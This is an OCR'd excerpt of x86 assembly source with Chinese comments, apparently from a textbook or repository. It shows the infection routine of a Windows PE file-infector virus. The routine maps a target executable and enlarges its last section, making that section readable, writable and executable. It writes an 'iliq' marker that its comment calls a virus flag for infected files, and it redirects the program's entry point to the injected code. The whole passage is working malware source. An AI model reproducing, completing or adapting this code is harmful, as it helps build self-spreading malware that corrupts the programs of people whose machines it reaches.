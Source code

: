 ```assembly
921 mov dword ptr [ebx+mapHandle],eax
922 mov ecx,dword ptr [ebx+newSize]
923 call mapFile
924 or eax,eax
925 jz unMapFile
926 mov dword ptr [ebx+mapAddress],eax
927
928 ;修正参数部分
929
930 ;计算SizeOfRawData
931 invoke _getRVACount,[ebx+mapAddress]
932 xor edx,edx
933 dec eax
934 mov ecx,sizeof IMAGE_SECTION_HEADER
935 mul ecx
936
937 mov edi,dword ptr [ebx+mapAddress]
938 assume edi:ptr IMAGE_DOS_HEADER
939 add edi,[edi].e_lfanew
940 mov esi,edi
941 assume esi:ptr IMAGE_NT_HEADERS
942 add edi,sizeof IMAGE_NT_HEADERS
943 add edi,eax
944 assume edi:ptr IMAGE_SECTION_HEADER
945 mov eax,dword ptr [ebx+dwLastSectionAlignSize]
946 mov [edi].SizeOfRawData,eax
947
948 ;计算Misc值
949 invoke getSectionAlign,[ebx+mapAddress]
950 mov dword ptr [ebx+dwSectionAlign],eax
951 xchg eax,ecx
952 mov eax,dword ptr [ebx+dwLastSectionAlignSize]
953 invoke _align
954 mov [edi].Misc,eax
955
956 ;修改标志，使节可读、可写、可执行
957 or dword ptr [edi].Characteristics,0A0000020h ;更改节的标志
958 push esi
959 mov esi,dword ptr [ebx+mapAddress]
960 add esi,4
961 mov dword ptr [esi],"iliq" ;设置病毒标志，标明已感染
962 pop esi
963
964 ;计算VirtualAddress
965 mov eax,[edi].VirtualAddress ;获取原始RVA值
966 mov dword ptr [ebx+dwVirtualAddress],eax
967
968 ;修正函数入口地址
969 mov eax,dword ptr [ebx+dwNewFileAlignSize]
970 invoke _OffsetToRVA,[ebx+mapAddress],eax
971 mov dword ptr [ebx+dwNewEntryPoint],eax
972 mov edi,dword ptr [ebx+mapAddress]
973 assume edi:ptr IMAGE_DOS_HEADER
974 add edi,[edi].e_lfanew
975 assume edi:ptr IMAGE_NT_HEADERS
976 mov eax,[edi].OptionalHeader.AddressOfEntryPoint
977 mov dword ptr [ebx+dwDstEntryPoint],eax
978 mov eax,dword ptr [ebx+dwNewEntryPoint]
979 mov [edi].OptionalHeader.AddressOfEntryPoint,eax
980
981 mov eax,dword ptr [ebx+dwDstEntryPoint]
982 sub eax,dword ptr [ebx+dwNewEntryPoint]
983 mov dword ptr [ebx+dwEIPOff],eax
```